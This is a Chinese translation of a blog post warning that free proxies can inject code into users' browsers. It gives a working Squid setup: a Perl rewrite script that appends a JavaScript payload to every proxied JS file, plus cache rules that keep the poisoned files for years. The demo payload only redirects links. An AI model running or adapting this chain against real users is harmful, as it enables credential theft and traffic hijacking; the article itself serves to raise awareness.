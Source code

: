 ```yaml
---
title: 'Why are free proxies free?[译]'
layout: post
guid: urn:uuid:b87da13a-a4dd-402f-b06a-cef720150705
tags:
    - web
    - security
---
```



本文由 [伯乐在线](http://blog.jobbole.com) - [光光头去打酱油](http://www.jobbole.com/members/zhongjianno1) 翻译，[黄利民](http://www.jobbole.com/members/huanglimin) 校稿。未经许可，禁止转载！
英文出处：[Christian Haschek](https://blog.haschek.at/post/fd9bc)。欢迎加入[翻译组](http://group.jobbole.com/category/feedback/trans-team/)。

【伯乐在线注】：原文副标题是“因为这是一种轻松搞到成千上万用户数据的途径”，作者后来还写了一篇文章《[分析了443个免费代理，其中只有21％没有黑幕，那么剩下的79%呢？](http://blog.jobbole.com/87822/)》。

最近偶然发现， Chema Alonso 在 Defcon 20 会议上谈到他如何从头开始创建一个JavaScript 僵尸网络，然后如何使用它来找到骗子和黑客。

一切都是通过一个 SQUID 代理并修改了些小配置完成的。

这个想法非常简单：

1.【服务器】在一台 linux 服务器上安装 Squid

2.【Payload】修改服务器配置，给所有传输的 javascript 文件插入一些代码，这些代码的作用就是将用户数据传送到你的服务器上，比如用户在表单中输入的所有数据。

3.【缓存】将修改过的 js 文件的缓存时间尽可能延长。

## 可能发生的最坏事情是什么？

当某人能强迫你加载一个受感染的 JS 文件， 那他们可以：

*   窃取你访问的网站的登录信息（从登录表单中或 cookies）
*   窃取你的银行账号或信用卡信息
*   强迫你参与 DDOS 攻击，让你的浏览器一秒钟内加载一个网站几百次，通过 iframe 或 script（脚本）来发送请求。
*   基本你上网做的任何事情都能看到（包括你阅读时鼠标的位置）

## https

如果你的网站加载了一些不安全的资源（比如从一个 http 站点加载 jquery），那该手法在 https 链接上也能生效。大多数浏览器都会提醒你，有些甚至会阻止你访问不安全的内容，但是没有人注意到浏览器地址栏中“锁”的符号。

#### 举个例子

安全：[![a1279bf58d](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)

不安全：[![9f0d9fc0ce](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)

在介绍中，Chema 说他将修改过的服务器 IP 地址发布到网络上，几天后就有 5000 多人使用这个代理。大多数使用代理的人都是为了做坏事，因为他们都知道使用了代理在网络上就变成匿名了，似乎许多人都没有考虑过这个问题：代理同样也可以对他们做一些坏事。

我在想是不是真的那么简单，所以我建了一个运行 Debian(Linux的一个发行版) 的虚拟机，然后努力实现这些概念。

## 编写自己的 js 来感染代理

假设你有一个运行 squid 的代理，同时你还需要一个网站服务器，如使用 /var/www 为根目录(默认设置)的 Apache 服务器。

## 步骤1：创建一个 payload

我打算用一个简单的脚本获取网页上所有的链接，然后将 href(链接) 属性改写成我的站点。

/etc/squid/payload.js

    for(var i=0;i&lt;document.getElementsByTagName('a').length;i++)  
       document.getElementsByTagName('a')[i].href = "https://blog.haschek.at";

## 步骤2：将脚本注入所有请求的 js 文件中。

/etc/squid/poison.pl

```
#!/usr/bin/perl

$|=1;
$count = 0;
$pid = $;

while(&lt;&gt;)
{
  chomp $_;
  if($_ =- /(.*.js)/i)
  {
        $url = $1;
        system("/usr/bin/wget","-q","-O","/var/www/tmp/$pid-$count.js","$url");
        system("chmod o+r /var/www/tmp/$pid-$count.js");
        system("cat /etc/squid/payload.js &gt;&gt; /var/www/tmp/$pid-$count.js");
        print "http://127.0.0.1:80/tmp/$pid-$count.jsn";
  }
  else
  {
        print "$_n";
  }
$count++;
}
```

这个脚本会用 wget 检索到客户端请求的原来的 javascript 文件，然后将 /etc/squid/payload.js 文件中的代码增加进去。这个修改的文件（包含我们的有效负载）将被发送给客户端。你也可以创建文件夹 /var/www/tmp ，然后允许 squid 在该文件夹中写入。这个文件夹可以存放所有被修改过的 js 脚本。

## 步骤3：告诉 Squid 使用上文中的脚本

在 /etc/squid/squid.conf 中添加

    url_rewrite_program /etc/squid/poison.pl

## 步骤4：让缓存永不过期

/var/www/tmp/.htaccess

    ExpiresActive On
    ExpiresDefault "access plus 3000 days"

这几行告诉 apache 服务器，设置一个疯狂的过期（缓存）时间，所以它会一直存在用户的浏览器中，直到他们清除缓存或 cookies。

重启下 squid 就能运行了。如果你连接到代理上，然后浏览网页，网页会显示预期的内容，但是所有的链接会被指向这个博客。这项技术更猥琐的是，当你断开了与代理的连接，从代理缓存的 js 文件仍存在浏览的缓存中。

在我的例子中 payload 不太具有破坏性，用户很快就能理解什么是“钓鱼”，但是富有创造性的 payload 或像 Beef 类似的框架就能被用来实现各种各样的东西。告诉你的朋友们，绝不要使用免费的代理，因为许多代理就做这些坏事情。

安全上网（但不要使用免费的代理）